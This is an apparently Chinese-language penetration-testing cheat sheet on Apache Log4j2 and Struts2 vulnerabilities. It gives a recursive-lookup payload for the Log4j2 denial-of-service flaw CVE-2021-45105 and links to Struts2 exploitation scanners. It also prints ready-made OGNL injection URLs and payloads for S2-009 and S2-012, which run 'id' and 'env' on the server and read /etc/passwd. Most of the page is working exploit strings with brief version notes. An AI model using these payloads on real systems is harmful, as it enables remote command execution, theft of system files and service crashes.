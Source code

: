 **CVE-2021-45105-log4j2-DDOS**

* 影响版本
  * log4j2：2.16.0
* 漏洞详情
  * CVE-2021-45105的Apache Log4j2拒绝服务攻击漏洞，当系统日志配置使用非默认的模式布局和上下文查找时，攻击者可以通过构造包含递归查找数据包的方式，控制线程上下文映射 (MDC)，导致StackOverflowError产生并终止进程，实现拒绝服务攻击。目前只有log4j-core JAR 文件受此漏洞影响。仅使用log4j-api JAR文件而不使用log4j-core JAR文件的应用程序不受此漏洞的影响。
* 漏洞利用（会导致服务崩溃-不需要使用）
  * `${${::-${::-$${::-j}}}}`
* 修复建议
  * https://github.com/apache/logging-log4j2/tags

#### Apache-Struts2

探测工具：https://github.com/shack2/Struts2VulsTools

支持的范围：S2-057,S2-048,S2-046,S2-045,S2-016,S2-019,S2-037,S2-032

S2-046以后的洞难以扫出来，需要自己寻找利用点，简单来说没有通用的链

其它利用工具

* https://github.com/HatBoy/Struts2-Scan - Python3 Struts2 全漏洞扫描利用工具

**s2-009**

影响版本: 2.1.0 - 2.3.1.1

id

```
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

env

```
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27env%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

**s2-012**

影响版本：2.1.0 - 2.3.13

payload:(读取etc/passwd文件)

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
